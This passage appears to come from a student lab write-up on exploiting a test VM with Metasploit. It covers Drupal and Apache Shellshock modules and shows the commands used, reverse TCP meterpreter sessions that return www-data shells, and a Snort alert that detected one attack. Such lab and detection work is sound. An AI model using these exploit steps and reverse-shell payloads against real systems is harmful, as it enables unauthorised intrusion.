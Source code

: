 ```bash
   4  exploit/unix/webapp/drupal_restws_exec         2016-07-13       excellent  Yes    Drupal RESTWS Module Remote PHP Code Execution
   5  exploit/unix/webapp/drupal_restws_unserialize  2019-02-20       normal     Yes    Drupal RESTful Web Services unserialize() RCE
   6  auxiliary/scanner/http/drupal_views_user_enum  2010-07-02       normal     Yes    Drupal Views Module Users Enumeration
   7  exploit/unix/webapp/php_xmlrpc_eval            2005-06-29       excellent  Yes    PHP XML-RPC Arbitrary Code Execution
```

We choose the 2 since it has an excellent rank and SQL injection seems like a good attack to try. Then we have multiple payloads to choose, I tried with different payloads and the one that worked for me was the 18 one (php/meterpreter/reverse_tcp), then the options are usual and execute.

```bash
set RHOSTS 172.28.128.3
set TARGETURI /drupal/
execute
```

After the execution we get a meterpreter session

```bash
[*] Started reverse TCP handler on 192.168.0.104:4444 
[*] Sending stage (39927 bytes) to 192.168.0.104
FATAL:  terminating connection due to administrator command
[*] Meterpreter session 7 opened (192.168.0.104:4444 -> 192.168.0.104:54896) at 2023-11-19 23:24:17 +0200

meterpreter > getuid
Server username: www-data
```

snort detected the attack:

```bash
[**] [1:2012887:2] ET POLICY HTTP POST contains pass= in cleartext [**] [Classification: Potential Corporate Privacy Violation] [Priority: 1] {TCP} 172.28.128.1:43547 -> 172.28.128.3:80
```

## Identified Attack 4: Apache

Although we have to do 3, with CUPS we could not get a stable shell, so we will try to do 4.

In the nmap we saw that the port 80 was open with service **http** and version **Apache httpd 2.4.7**, after searching for exploits we can see that there are more than 100 exploits for apache, so searching on google yields us with the exploit `multi/http/apache_mod_cgi_bash_env_exec`. We perform the usual options and execute.

```bash
set RHOSTS 172.28.128.3
exploit
```

```bash
[*] Started reverse TCP handler on 192.168.0.104:4444 
[*] Command Stager progress - 100.00% done (1092/1092 bytes)
[*] Sending stage (1017704 bytes) to 192.168.0.104
[*] Meterpreter session 17 opened (192.168.0.104:4444 -> 192.168.0.104:39530) at 2023-11-20 00:04:31 +0200

meterpreter > getuid
Server username: www-data
```
